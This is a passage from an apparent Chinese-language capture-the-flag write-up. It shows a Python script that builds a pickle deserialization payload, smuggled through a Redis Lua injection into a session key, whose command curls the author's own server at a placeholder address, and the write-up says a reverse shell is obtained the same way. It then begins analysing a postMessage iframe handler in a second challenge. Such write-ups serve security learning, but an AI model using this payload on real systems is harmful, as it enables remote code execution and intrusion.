 生成反弹shell payload代码如下

```
import cPickle
import os

class exp(object):
    def __reduce__(self):
        s = """curl vps_ip:23333"""
        return (os.system,(s,))

e = exp()
s = cPickle.dumps(e)
s_bypass = ""
for i in s:
    s_bypass +="string.char(%s).."%ord(i)
evilcode = '''
redis.call("set","bookhub:session:skycool",%s)
'''%s_bypass[:-2]
payload = '''
6f17c248-ed0d-4d74-bba6-21b9342c854a",%s,"bookhub:session:skycool
'''%evilcode
print payload.replace(" ","")
```

然后<br>[![](https://p1.ssl.qhimg.com/t010f9a24b8f83db3f3.png)](https://p1.ssl.qhimg.com/t010f9a24b8f83db3f3.png)再[![](https://p1.ssl.qhimg.com/t019af3e22ce9da1290.png)](https://p1.ssl.qhimg.com/t019af3e22ce9da1290.png)然后去登录<br>
发现自己的vps收到访问<br>[![](https://p4.ssl.qhimg.com/t01b82c112a5e434391.png)](https://p4.ssl.qhimg.com/t01b82c112a5e434391.png)<br>
此时眼泪哗的一下流了下来<br>
同理反弹shell即可<br>[![](https://p5.ssl.qhimg.com/t01d1f572ee6221f000.png)](https://p5.ssl.qhimg.com/t01d1f572ee6221f000.png)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d1df36fe9cdfd54d.png)

## Dot Free

[![](https://p0.ssl.qhimg.com/t011ecd1d0356e1d5a0.png)](https://p0.ssl.qhimg.com/t011ecd1d0356e1d5a0.png)题目乍一看仿佛是SSRF<br>
于是我进行了一些测试，发现ip2long：<br>[![](https://p2.ssl.qhimg.com/t01e243f826a6612442.png)](https://p2.ssl.qhimg.com/t01e243f826a6612442.png)是可以请求的，但是我尝试了自己的vps，根本收不到请求<br>
在迷茫之际，发现源代码中

```
window.addEventListener('message', function (e) `{`
        if (e.data.iframe) `{`
            if (e.data.iframe &amp;&amp; e.data.iframe.value.indexOf('.') == -1 &amp;&amp; e.data.iframe.value.indexOf("//") == -1 &amp;&amp; e.data.iframe.value.indexOf("。") == -1 &amp;&amp; e.data.iframe.value &amp;&amp; typeof(e.data.iframe != 'object')) `{`
                if (e.data.iframe.type == "iframe") `{`
                    lce(doc, ['iframe', 'width', '0', 'height', '0', 'src', e.data.iframe.value], parent);
                `}` else `{`
                    lls(e.data.iframe.value)
                `}`
            `}`
        `}`
    `}`, false);
    window.onload = function (ev) `{`
        postMessage(JSON.parse(decodeURIComponent(location.search.substr(1))), '*')
    `}`
```
